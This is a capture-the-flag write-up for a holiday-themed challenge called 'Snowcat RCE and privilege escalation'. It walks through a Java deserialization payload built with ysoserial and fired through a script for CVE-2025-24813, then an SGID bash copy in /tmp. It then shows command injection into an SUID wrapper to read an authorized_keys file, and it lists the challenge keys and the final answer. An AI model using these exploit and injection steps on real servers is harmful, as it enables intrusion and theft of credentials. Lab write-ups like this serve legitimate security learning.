









# Act 3: Snowcat RCE and privilege escalation

**Difficulty**: :fontawesome-solid-star::fontawesome-solid-star::fontawesome-solid-star::fontawesome-regular-star::fontawesome-regular-star: 

## Objective

!!! question "Request"
    Tom, in the hotel, found a wild Snowcat bug. Help him chase down the RCE! Recover and submit the API key not being used by snowcat.

??? quote "Tom Hessman"
    We've lost access to the neighborhood weather monitoring station. 
    There are a couple of vulnerabilities in the snowcat and weather monitoring services that we haven't gotten around to fixing. 
    Can you help me exploit the vulnerabilities and retrieve the other application's authorization key? 
    Enter the other application's authorization key into the badge. 
    If Frosty's plan works and everything freezes over, our customers won't be having the best possible experience—they'll be having the coldest possible experience! We need to stop this before the whole neighborhood becomes one giant freezer. 

**Additional information**
The weather monitoring station uses the Snowcat hosting platform.
It's cousin Tomcat, recently had a Remote Code Execution vulnerability.
Can you help me try and exploit it to regain access to the server? 
Once you've gained access, find a way to become the 'weather' user, and find the authorization key used by the other system.
Enter the authorization key used by the other system into the badge.

## Solution

#### Recon

Command line details

## Display ysoserial help, lists payloads, and their dependencies:

`java -jar ysoserial.jar`

## Identify what libraries are used by the Neighborhood Weather Monitoring system

- Generate an error in the server to see if we get a useful error message

`curl 127.0.0.1/test`

Server Version: Apache Tomcat/9.0.90

Used libraries: CommonsCollections6

## Use ysoserial to generate a payload

`java -jar ysoserial.jar CommonsCollections6 'cp /bin/bash /tmp/pwn_bash' |base64 -w 0 > payload.b64`

# Run generated payload

`python3 CVE-2025-24813.py --host 127.0.0.1 --port 80 --base64-payload 'cat  payload.b64'`

Was the bash file copied ? **YES**

Doing the same thing with a different payload to change the permissions: `chmod 2777 /tmp/pwn_bash`

run the bash with the elevated group privilege
`/tmp/pwn_bash -p`

We now belong to the group `snowcat`, we can perform some actions as that group

We can now have access to the content of the `snowcat` directory

**key = "4b2f3c2d-1f88-4a09-8bd4-d3e5e52e19a6";**

This is a classic privilege escalation scenario involving a **SUID/SGID binary** that acts as a wrapper for a higher-privileged command.

The permissions `-rwsr-sr-x` are the "smoking gun." The `s` in the owner and group fields means that when you run this program, it executes with the privileges of the **root** user and the **weather** group, regardless of who you are.

- Verify it works by executing it and chaining additional commands to the same context
`/usr/local/weather/temperature "'4b2f3c2d-1f88-4a09-8bd4-d3e5e52e19a6;sh -c \"touch /tmp/test\"'"`

By running ` ls -la test`, we notice that the file was correctly created

- We can now list the local keays: `/usr/local/weather/keys`
`/usr/local/weather/temperature "'4b2f3c2d-1f88-4a09-8bd4-d3e5e52e19a6;sh -c \"ls /usr/local/weather/keys\"'"`

- Read the file `authorized_keys`
` /usr/local/weather/temperature "'4b2f3c2d-1f88-4a09-8bd4-d3e5e52e19a6;sh -c \"cat /usr/local/weather/keys/authorized_keys\"'"`

### Solution

*Application key: 8ade723d-9968-45c9-9c33-7606c49c2201*
